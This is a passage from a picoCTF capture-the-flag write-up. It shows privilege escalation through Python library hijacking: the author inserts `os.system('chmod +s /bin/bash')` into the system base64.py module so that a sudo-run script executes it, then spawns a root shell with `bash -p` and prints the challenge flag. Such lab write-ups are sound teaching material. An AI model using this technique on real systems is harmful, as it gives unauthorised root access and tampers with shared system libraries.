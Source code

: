 In here, we're importing the `os` library, so that we can use function `system()` to run OS command.

The payload is `chmod +s /bin/bash`, which adds SUID sticky bit to `/bin/bash`, so that we can spawn a root Bash shell.

Let's run that!

```shell
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

Hmm... "No address associated with hostname"?

No clue why we have this error.

Anyway, we can still trigger the payload.

In Python, when we importing a library, ***it'll run the code once***.

**That being said, we can add our payload in the top of the `base64.py` library:**
```py
# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii

import os
os.system('chmod +s /bin/bash')
```

**Let's run it again!**
```shell
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

**Although it still outputs an error, our payload should ran:**
```shell
picoctf@challenge:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.2M Apr 18  2022 /bin/bash
```

**Nice! Let's spawn a root Bash shell:**
```shell
picoctf@challenge:~$ /bin/bash -p
bash-5.0# whoami;hostname;id
root
challenge
uid=1000(picoctf) gid=1000(picoctf) euid=0(root) egid=0(root) groups=0(root),1000(picoctf)
bash-5.0# cat /root/.flag.txt 
picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}
```
